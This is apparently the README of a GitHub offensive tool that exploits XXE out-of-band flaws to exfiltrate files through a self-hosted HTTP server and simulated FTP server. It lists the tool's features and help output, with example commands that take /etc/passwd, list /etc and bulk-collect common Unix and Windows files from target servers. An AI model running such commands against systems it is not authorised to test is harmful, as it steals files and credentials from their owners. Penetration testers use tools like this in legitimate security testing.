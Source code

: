 # XXE OOB Exfiltrator

## Description
This is a simple tool for exploiting XXE Out-Of-Band vulnerability to exfiltrate files content (or list directories) using a self-hosted HTTP server to deliver a DTD which links to a self-hosted simulated FTP server for exfiltrating the file content.

## Features
* External DTD inclusion by using self-hosted HTTP server
* Multi-line content exfiltration by using `ftp://` URI scheme and self-hosted simulated FTP server
* Base64 encoded content exfiltration by using `php://` URI scheme and self-hosted simulated FTP server
* Single file exfiltration (and in some cases directory listing)
* Multiple files exfiltration using a wordlist of filepaths
* Output exfiltrated content to a file
* Save exfiltrated files to a directory
* Automatically trigger exploit by sending HTTP request to vulnerable server before starting local servers for exfiltration

### Note:
The multiline content exfiltration (without Base64 encoding) will work only on environments that allow multiline URIs, for instance in some Java environments it won't work because Java doesn't allow multiline URIs since version 8. Also it won't work with binary files because bad characters will break the URI.

## Usage
To run the script you need Python 3 and the Python `requests` library.

To run in automatic mode you need a JSON requestfile that will be parsed by the script to automatically trigger the exploit. A template of the JSON requestfile is available [here](data/reqfile_template.json).

### Help
```
usage: xxeoob.py [-h] -s SERVER [-f FILE] [-fp FTP_PORT] [-hp HTTP_PORT]
                 [-o OUTFILE] [-w WORDLIST] [-r REQUESTFILE] [-b] [-d DELAY]
                 [-p PROXY]

XXE OOB file content exfiltrator via self-hosted HTTP and FTP servers

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        This server IP/hostname
  -f FILE, --file FILE  File to retrieve in vulnerable server
  -fp FTP_PORT, --ftp-port FTP_PORT
                        FTP server port (default: 21)
  -hp HTTP_PORT, --http-port HTTP_PORT
                        HTTP server port (default: 80)
  -o OUTFILE, --outfile OUTFILE
                        Output exfiltrated content to file (or directory in
                        case of multiple files)
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist containing a list of files to retrieve
  -r REQUESTFILE, --requestfile REQUESTFILE
                        Use JSON request file for automatic mode (to
                        automatically trigger the request to vulnerable
                        server)
  -b, --base64          Convert exfiltrated content from Base64
  -d DELAY, --delay DELAY
                        Delay in seconds between files exfiltrated in wordlist
                        mode (to avoid DoS)
  -p PROXY, --proxy PROXY
                        Add proxy (in format <PROT>://<IP_OR_HOSTNAME>:<PORT>)
```

### Examples
`./xxeoob.py -s 10.10.10.10 -hp 8081 -fp 2121 -f /etc/passwd`

Exfiltrate "/etc/passwd" file content

`./xxeoob.py -s 192.168.1.123 -f /etc`

List the content of the directory "/etc"

`./xxeoob.py -s 172.17.0.1 -w data/linux_commonpaths_wordlist -o exfiltrated_files -r custom_reqfile.json`

Automatically exfiltrate all common unix files and save them in "exfiltrated_files" directory

`./xxeoob.py -s 127.0.0.1 -w data/windows_commonpaths_wordlist -o exfiltrated_files -r custom_reqfile.json -b`

Automatically exfiltrate all common windows files in Base64 mode and save them in "exfiltrated_files" directory
